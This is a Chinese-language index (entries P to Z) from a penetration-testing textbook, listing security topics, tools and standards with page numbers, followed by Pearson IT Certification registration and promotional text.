    - 哈希，59, 60, 135–136
    - 在注册表中，134
    - 无线，369
- 有效载荷
  - 定义，65, 288
  - 投递，318–321
- PCI DSS（支付卡行业数据安全标准），25–27
- PDOs（永久拒绝服务），282
- 渗透测试执行标准（PTES），31–32
- 渗透测试
  - 方法，9–10
  - 职业
    - 商业渗透测试，20
    - 政府/国家防御，20–21
    - 执法，21
    - 安全管理，20
  - 认证，16, 359–361
    - CEH，17, 360
    - CISSP，18–19, 360
    - CREST，33
    - GPEN，17, 360
    - Mile2，18, 360
    - OSCP，18, 360
    - PPT，19
  - 准备，19
  - 会议，354–355
  - 暗网，355–358
  - 定义，2
  - 伦理问题，10–11
    - 保密性，11
    - 对客户系统造成干扰，12
    - 关于技能的诚实，12
  - 与黑客对比，4–5
  - 大型机，378–379
  - 方法论，7
    - 黑盒测试，7
    - 灰盒测试，9
    - 白盒测试，7–8
  - 移动设备
    - Bluetooth 攻击，380
    - Bluetooth 手机工具，380–383
    - 蜂窝术语，379–380
  - 示例项目
    - 外部测试，388–389
    - 内部测试，389–390
- 可选项目，390
- 概述，386
- 测试前活动，387
- 报告大纲，390–391
- SCADA 系统，377–378
- 技能提升，21
- 标准，24
  - CREST 考试，33
  - ISO 27002，39–40
  - NIST 800–12 修订版 1，40–41
  - NIST 800–14，41–42
  - NIST 800–115，27–29
  - NSA-IAM，30–31
  - OWASP，39
  - PCI DSS，25–27
  - PTES，31–32
    - 统一方法，33–38
- 术语，5–6
- 与漏洞扫描对比，178
- 无线。另请参见 无线
- 永久拒绝服务（PDoS），282
- 文件权限
  - /etc/passwd 目录，226–227
  - 更改，218–219, 249–250
- Phishtank，197
- ping 扫描，84
- Linux 输出管道，209
- 明文，50
- NIST 800–115 标准的规划阶段，27–28
- Plasma 桌面，232
- 多态病毒，106
- 多态性，338
- 端口扫描，83–87
- POST 命令，155
- 后期利用，306–309, 312–318
  - 应用枚举，307
  - 桌面操作，315–316
  - 文件上传/下载，314
  - IP 和 MAC 地址发现，312–313


键盘记录, 317–318
在 Linux 上, 325
已登录用户枚举, 306
麦克风访问, 308, 317
导航命令, 314–315
网络发现, 313
进程发现, 307, 314
虚拟机检查, 306–307
摄像头访问, 308, 317
执行后阶段, NIST 800–115 标准, 29
PowerShell 病毒, 119–120
PPT（专业渗透测试员）, 19
统一标准方法中的预参与阶段, 34–35
Prefetch 文件, 134–135
测试前活动, 387
素数, 56
进程优先级, 241–242
/proc 目录, 230–231
Process Explorer, 145–146
进程
  /proc 目录, 230–231
  后台, 219
  CPU 利用率, 214–215
  发现, 307, 314
  前台, 219
  终止, 215–216
  列出, 211–212
  优先级, 241–242
  以树结构显示, 212–214
procfs, 237
专业渗透测试员（PPT）, 19
项目示例。参见示例渗透测试项目
病毒传播方法, 103–104
文件属性检查, 240–241
代理服务器, 为浏览器配置, 167–171
ps 命令, 211–212, 314
pstree 命令, 212–214
PTES（渗透测试执行标准）, 31–32
公钥加密。参见非对称加密
PUT 命令, 155
puts 语句, 331, 333, 334
pwdump, 61–62, 143–144

## Q
PCI DSS 标准中的资格, 26。另见认证
QuickStego, 66
quit 命令, 292

## R
RACE 完整性原语评估信息摘要（RIPEMD）, 60
无线电频率通信（RFCOMM）, 371
栅栏密码, 50
彩虹表, 61–63, 144, 268–269
RainbowCrack, 62
ramfs, 237
勒索软件, 106–107
  Teardrop, 110
RC4, 53
侦察。另见漏洞扫描
  主动
    定义, 83
    枚举, 88–91
    使用 Maltego, 94–96
    端口扫描, 83–87
    在示例项目中, 388
    使用 Wireshark, 91–94
    使用 Dmitry, 264–265
    OSINT 工具, 96–97
  被动
    使用 Archive.org, 79–80
    使用 BuiltWith, 78–79
    定义, 77
    使用 Google 搜索, 82–83
    使用 Netcraft, 77–78
    在示例项目中, 388
    使用 Shodan, 80–82
    使用社交媒体, 82
    使用 recon-ng, 261–263
recon-ng, 261–263
redirect (>) 命令, 209
regedit, 131
注册表（Windows）, 131–135
  蜂巢, 132
  恶意软件, 133–134
  密码, 134
  Prefetch 文件, 134–135
  已卸载软件信息, 134
  USB 信息, 132–133
  UserAssist, 134
  无线网络信息, 133
  Word 文档跟踪, 133
相关密钥攻击, 69
关系数据库结构, 156–157
远程桌面漏洞利用, 304
报告阶段
  在示例项目中, 390–391
  在统一标准方法中, 36
require 语句, 346
信息资源。另见认证
  会议, 354–355
  关于密码学, 71–72
  暗网, 355–358
  关于 SQL 脚本注入, 162
响应代码（网站）, 155–156
REX, 350
RFCOMM（无线电频率通信）, 371
Rijndael 分组密码, 52–53
RIPEMD（RACE 完整性原语评估信息摘要）, 60
rm 命令, 216
rmdir 命令, 216
Rombertik, 109
/root 目录, 226
rootkits, 113
RSA（Rivest-Shamir-Adelman）, 55–58
Ruby
  条件语句, 334–336
  定义, 328
  环境安装, 328
  现有漏洞利用
    检查, 346–348
    扩展, 348–350
  文件扩展名, 330
  函数, 337–338
  ‘Hello World’ 脚本, 330–331
  循环, 336–337
  与 Metasploit API, 342–343
  面向对象编程, 338
  运算符, 332–334
  启动, 329
  漏洞利用模板, 344–346
  变量, 331–332
  编写漏洞利用, 350–351
运行 Ruby 脚本, 330–331

## S
SAINT, 192
salt, 61
示例渗透测试项目
  外部测试, 388
  主动侦察, 388
  入侵, 388–389
  被动侦察, 388
  内部测试, 389–390
  可选项目, 390
  概要, 386
  测试前活动, 387
  报告概要, 390–391
SANS 研究所, 17
沙特阿拉伯网络犯罪法律, 15
保存 Ruby 脚本, 330
/sbin 目录, 226
SCADA（监控与数据采集）系统
  组件, 376
  渗透测试, 377–378
  系统类型, 376–377
扫描。参见侦察；漏洞扫描
恐吓软件, 110
调度任务, 238–239
屏幕截图, 316
脚本小子, 6
脚本病毒
  创建, 117–120
  net 命令, 139–142
脚本编写, 248–252。另见 Ruby
SDP（服务发现协议）, 371
搜索
  漏洞利用, 292–293
  文件, 242
  网站，使用 Google 搜索进行侦察, 82–83
安全哈希算法（SHA）, 59–60
SecureWorld, 355
安全
  Linux
    iptables, 244–246
    脚本编写, 248–252
    syslog, 246–248
  无线
    BSSID, 368
    测试, 278–279
    WEP, 368
    WPA, 368
    WPA2, 368
安全管理职业, 20
安全日志（Windows）, 130
安全标准。参见标准
安全测试类型
  审计, 3
  混合测试, 5
  渗透测试, 4–5
  漏洞扫描, 3–4
服务发现协议（SDP）, 371
sessions 命令, 292
SHA（安全哈希算法）, 59–60
Shamoon, 363
shell 命令。参见命令
ShmooCon, 355
Shodan, 80–82
show exploits 命令, 292
show options 命令, 292, 297
show payloads 命令, 292
sid2user 工具, 139
sigverif 工具, 147
SIM（用户身份模块）, 379
Simple Stego, 66–67
单密钥加密。参见对称加密
技能提升, 21
SMB Scanner, 295–296
smss.exe, 130
Smurf 攻击, 281
SNOW, 66
社会工程学, 279–280
社交媒体，进行侦察, 82
软链接, 237
稀疏感染病毒, 106
Sparta, 266–267
SQL 脚本注入, 156–162
  规避对策, 161–162
  基本方法, 157–159
  列名, 159–160
  数据库修改, 160–161
输入验证, 158–159
关系数据库结构, 156–157
信息资源, 162
SQL Server Scan, 296–297
SSH Server Scan, 297–298
标准, 24
  802.11 标准, 367
  CREST 考试, 33
  ISO 27002, 39–40
  NIST 800–12 修订版 1, 40–41
  NIST 800–14, 41–42
  NIST 800–115, 27–29
  NSA-IAM, 30–31
  OWASP, 39
  PCI DSS, 25–27
  PTES, 31–32
  用于 SCADA 系统, 378
  统一方法, 33–38
    示例渗透测试, 37–38
    方法论, 33–34
    预参与阶段, 34–35
    报告阶段, 36
    测试阶段, 35–36
启动 Ruby, 329
州法律（美国）, 14
有状态数据包检查防火墙, 244
语句（Ruby）
  case, 335–336
  class, 338
  条件, 334–336
  end, 334
  gets, 331, 333–334
  if, 334–335
  include, 346
  嵌套 if, 334–335
  puts, 331, 333, 334
  require, 346
Stealth Files 4, 66
隐蔽病毒, 105–106
隐写术
  定义, 65
  历史, 65–66
  术语, 65
  工具, 66–68
StegVideo, 66
流密码, 51
用户身份模块（SIM）, 379
替换字母表, 48
SuperScan, 88–90
监控与数据采集（SCADA）系统
  组件, 376
  渗透测试, 377–378
  系统类型, 376–377
切换。参见更改
符号链接, 237
对称加密
  3DES, 51–52
  相对于非对称密码的优势, 54
  AES, 52–53
  Blowfish, 53
  定义, 51
  DES, 51
  修改, 53–54
  RC4, 53
SYN 洪泛, 281
SYN 扫描, 84
/sys 目录, 236–238
sysfs, 236–238
syslog, 246–248
syslogd, 248
系统日志（Windows）, 130
系统权限登录, 138

## T
任务，调度, 238–239
tcpdump, 181–182


- 泪滴勒索软件，110
- Metasploit 漏洞利用模板，344–346
- TeraBIT 病毒制造器，116
- 恐怖主义，361–363
- 统一标准方法中的测试阶段，35–36
- threatcrowd.org，197
- 工具
  - 蓝牙手机工具，380–383
  - 用于 DoS（拒绝服务），282–283
  - GUI，用于恶意软件创建，116–117
  - Kali Linux
    - Dmitry，264–265
    - Ghost Phisher，270–272
    - Hashcat，268–269
    - John the Ripper，268
    - macchanger，269–270
    - recon-ng，261–263
    - Sparta，266–267
  - Metasploit。参见 Metasploit
  - OSINT，96–97，197–198
  - 用于隐写术，66–68
  - 用于网站黑客攻击，165–174
  - 用于 Wi-Fi 黑客攻击
    - Aircrack，373–374
    - AirJack，375
    - Cain and Abel，375
    - Kismet，375
    - NetStumbler，372
- top 命令，214–215
- 托欧特函数，56
- touch 命令，240–241
- 培训。参见 认证
- 置换密码，50
- 树结构中的进程，212–214
- 三重 DES（3DES），51–52
- 特洛伊木马，104，106，111–112
  - 创建，120–122
  - 硬件特洛伊木马，108
  - Troj/Invo-Zip，110
- Troj/Invo-Zip，110

## U
- UMTS（通用移动通信系统），380
- 未经授权的计算机访问法（日本），15–16
- 统一标准方法，33–38
  - 示例渗透测试，37–38
  - 方法论，33–34
  - 参与前阶段，34–35
  - 报告阶段，36
  - 测试阶段，35–36
- 注册表中未安装软件信息，134
- 美国网络犯罪法律，12–14
- 通用移动通信系统（UMTS），380
- Unix，历史，204–206
- 未经授权访问存储通信法规（美国），13–14
- UNLINK 命令，155
- unload 命令，292
- 上传文件，314
- 注册表中的 USB 信息，132–133
- use 命令，292
- 用户账户
  - /usr 目录，229
  - 添加，219–221
  - 删除，221–222
  - 获取已登录用户，306
  - 修改，222–223
  - 查看已登录，223–225

## V
- useradd 命令，219–221
- UserAssist，134
- userdel 命令，221–222
- usermod 命令，222–223
- users 命令，223–224
- /usr 目录，229
- /var 目录，230
- Ruby 中的变量，331–332
- VBS 病毒，118
- Vega，194–196
- 查看已登录用户账户，223–225
- 维热纳密码，49
- 虚拟机（VMs）
  - 检查，306–307
  - Metasploit 设置，287–288
- 病毒制造器，116–117
- 病毒
  - 创建
    - GUI 工具，116–117
    - 脚本病毒，117–120
    - 通过病毒修改，122
  - 定义，102–103
  - 示例
    - CryptoLocker/CryptoWall，109
    - FakeAV，109–110
    - Flame，111
    - Gameover ZeuS，109
    - MacDefender，110
    - Rombertik，109
    - 泪滴勒索软件，110–111
    - Troj/Invo-Zip，110
  - 传播方法，103–104
  - 类型
    - 启动扇区，105
    - 硬件特洛伊木马，108
    - 工业，108
    - 宏，104–105
    - 勒索软件，106–107
    - 隐蔽，105–106
    - 特洛伊木马，104，111–112
    - 追踪爆发事件的网站，108–109
- VLR（访客位置寄存器），379
- VMs（虚拟机）
  - 检查，306–307
  - Metasploit 设置，287–288
- 卷影复制，135
- 漏洞扫描。另见 侦察
  - 用于蓝牙，380–383
  - 网络威胁情报
    - 定义，196
  - Internet Storm Center，197
  - OSINT，197–198
  - Phishtank，197
  - threatcrowd.org，197
  - 定义，3–4，178
  - 文档存储库
    - CVE，179
    - NIST，179
    - OWASP Top 10 列表，179–180
  - 通用扫描器
    - MBSA，188
    - Nessus，189–192
    - Nexpose，192
    - SAINT，192
  - 使用 Metasploit
    - 匿名 FTP 扫描，298
    - FTP 服务器扫描，299
    - SMB 扫描器，295–296
    - SQL Server 扫描，296–297
    - SSH 服务器扫描，297–298
  - 网络扫描器，186
    - LanHelper，186
    - 无线扫描器/破解器，187–188
  - 在 NIST 800–115 标准中，28
  - 数据包嗅探器
    - tcpdump，181–182
    - Wireshark，182–185
  - 与渗透测试对比，178
  - 在示例项目中
    - 外部测试，388–389
    - 内部测试，389–390
  - 使用 Sparta，266–267
  - Web 应用扫描器，192
    - OWASP ZAP，192–194
    - Vega，194–196

## W
- WannaCry 勒索软件，107
- WAP（无线接入点）
  - 创建，274–277
  - Kali Linux 作为，277–278
  - 测试安全性，278–279，369–370
- Web 应用扫描器，192
  - OWASP ZAP，192–194
  - Vega，194–196
- Web Master Tips 网站，97
- 使用 Metasploit 的基于 Web 的攻击，323–324
- 基于 Web 的移动代码，113–114
- 摄像头利用，308，317
- 网站
  - 黑客攻击
    - cookie 污染，165
    - 跨站脚本（XSS），162–164
    - CSRF，164
    - 强制浏览，164
    - LDAP 注入，165
    - 参数篡改，164
    - SQL 脚本注入，156–162
    - 工具，165–174
  - 扫描
    - 使用 Archive.org，79–80
    - 使用 BuiltWith，78–79
    - 使用 Google 搜索，82–83
    - 使用 Netcraft，77–78
    - 使用 OSINT 工具，96–97
    - 使用 Shodan，80–82
  - 技术概述，154–156
  - 用于病毒爆发，108–109
- 众所周知的端口
  - 定义，83
  - 列表，87
- WEP（有线等效隐私），368
- while 循环，336–337
- 白盒测试，7–8
- 白帽黑客，6
- who 命令，224–225
- Wi-Fi。参见 无线
- WiFi Pineapple，274–275
- Wi-Fi 受保护访问（WPA），368
- Wi-Fi 保护设置（WPS）攻击，279
- wifi-honey，277–278
- 通配符，251–252
- Windows
  - 启动过程，128–129
  - 黑客攻击
    - chntpw 工具，137
    - 使用 net 命令，139–142
    - net user 脚本，137–138
    - 传递哈希攻击，137
    - sid2user 工具，139
    - 系统权限登录，138
    - 通过 Office，322–323
  - 历史，127–128
  - 重要文件，129–130
  - 日志，130–131
  - 恶意软件检测，145–147
  - 密码
    - 破解，142–145，147–149
    - 哈希，59，60，135–136
    - 在注册表中，134
  - 注册表，131–135
    - 蜂巢，132
    - 恶意软件，133–134
    - 密码，134
    - Prefetch 文件，134–135
    - 未安装软件信息，134
    - USB 信息，132–133
    - UserAssist，134
    - 无线网络信息，133
    - Word 文档跟踪，133
  - 卷影复制，135
  - Windows 3.1，127
  - Windows 7，127
  - Windows 8，127
  - Windows 10，127
  - Windows 95，127
  - Windows 98，127
  - Windows 2000，127
  - Windows NT，127
  - Windows Server 2003，127
  - Windows Server 2008，127
  - Windows Server 2008 R2 攻击，322
  - Windows Server 2012，127
  - Windows Server 2016，127
  - Windows Vista，127
  - Windows XP，127
  - Windows XP DCOM 漏洞利用，305
  - winlogon.exe，130
  - 无线，274
    - 802.11 标准，367
    - ANT+，372
    - Bluetooth，370–371
      - 攻击，380
      - 手机工具，380–383
    - 黑客工具
      - Aircrack，373–374
      - AirJack，375
      - Cain and Abel，375
      - Kismet，375
      - NetStumbler，372
    - 热点创建，274–278
    - 红外，370
    - NFC，372
    - 安全性，369–370
      - BSSID，368
      - 测试，278–279
    - WEP，368
    - WPA，368
    - WPA2，368
    - 攻击类型，279，375
  - 无线接入点（WAP）
    - 创建，274–277
    - Kali Linux 作为，277–278
    - 测试安全性，278–279，369–370
  - 有线等效隐私（WEP），368
  - 注册表中的无线网络信息，133
  - 无线扫描器/破解器，187–188
  - Wireshark，91–94，182–185
  - 注册表中的 Word 文档跟踪，133
  - 蠕虫，106
  - WPA（Wi-Fi 受保护访问），368
  - WPA2，368
  - WPS（Wi-Fi 保护设置）攻击，279
  - 编写漏洞利用，350–351
    - 检查现有漏洞利用，346–348
    - 扩展现有漏洞利用，348–350
    - Metasploit API，342–343
    - 模板，344–346

## X
- XMAS 扫描，84
- XOR 病毒，106
- XSS（跨站脚本），162–164

## Z
- ZAP（Zed Attack Proxy），192–194
- Zenmap，86
- 零日漏洞利用，145


本页特意留空


## 在 PearsonITcertification.com/register 注册您的产品

获取额外权益，并在下次购买时节省 35%

- 下载可用的产品更新。
- 如适用，访问奖励资料。
- 接收新版本及相关产品的独家优惠。
  （设置账户时只需勾选框，即可收到我们的消息。）
- 获取下次购买 35% 的优惠券，有效期 30 天。您的代码将在您的 PITC 购物车中提供。（您也可以在账户页面的“管理代码”部分找到它。）

注册权益因产品而异。权益将在您的账户页面“已注册产品”下列出。

## PearsonITcertification.com—适用于自学、企业和课堂的学习解决方案

Pearson 是 Cisco Press、IBM Press、VMware Press、Microsoft Press 的官方出版商，也是铂金级 CompTIA 出版合作伙伴——CompTIA 的最高合作伙伴认证。

在 PearsonITcertification.com，您可以

- 选购我们的图书、电子书、软件和视频培训。
- 享受我们的特别优惠和促销活动 (pearsonitcertification.com/promotions)。
- 订阅特别优惠和内容通讯 (pearsonitcertification.com/newsletters)。
- 阅读信息技术专家撰写的免费文章、考试概览和博客。
- 获取数千个免费章节和视频课程。

## 与 PITC 保持联系 – 访问 PearsonITcertification.com/community

了解 PITC 社区活动和项目。


